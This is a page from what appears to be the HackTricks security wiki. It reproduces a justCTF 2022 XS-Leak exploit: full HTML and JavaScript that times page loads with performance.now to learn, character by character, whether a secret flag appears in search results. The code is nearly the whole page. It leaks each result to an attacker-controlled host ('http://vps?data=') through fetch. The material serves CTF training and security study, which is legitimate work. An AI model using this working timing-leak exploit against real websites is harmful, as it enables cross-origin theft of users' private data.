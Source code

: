 # performance.now + Force heavy task

{{#include ../../banners/hacktricks-training.md}}

**Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

In this challenge the user could sent thousands of chars and if the flag was contained, the chars would be sent back to the bot. So putting a big amount of chars the attacker could measure if the flag was containing in the sent string or not.

> [!WARNING]
> Initially, I didn’t set object width and height, but later on, I found that it’s important because the default size is too small to make a difference in the load time.

```html
<!DOCTYPE html>
<html>
  <head> </head>
  <body>
    <img src="https://deelay.me/30000/https://example.com" />
    <script>
      fetch("https://deelay.me/30000/https://example.com")

      function send(data) {
        fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
      }

      function leak(char, callback) {
        return new Promise((resolve) => {
          let ss = "just_random_string"
          let url =
            `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=` +
            ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement("object")
          object.width = "2000px"
          object.height = "2000px"
          object.data = url
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log("Error event triggered")
          document.body.appendChild(object)
        })
      }

      send("start")

      let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
      let flag = "justCTF{"

      async function main() {
        let found = 0
        let notFound = 0
        for (let i = 0; i < 3; i++) {
          await leak("..")
        }
        for (let i = 0; i < 3; i++) {
          found += await leak("justCTF")
        }
        for (let i = 0; i < 3; i++) {
          notFound += await leak("NOT_FOUND123")
        }

        found /= 3
        notFound /= 3

        send("found flag:" + found)
        send("not found flag:" + notFound)

        let threshold = found - (found - notFound) / 2
        send("threshold:" + threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while (true) {
          if (flag[flag.length - 1] === "}") {
            break
          }
          for (let char of charset) {
            let trying = flag + char
            let time = 0
            for (let i = 0; i < 3; i++) {
              time += await leak(trying)
            }
            time /= 3
            send("char:" + trying + ",time:" + time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
    </script>
  </body>
</html>
```

{{#include ../../banners/hacktricks-training.md}}

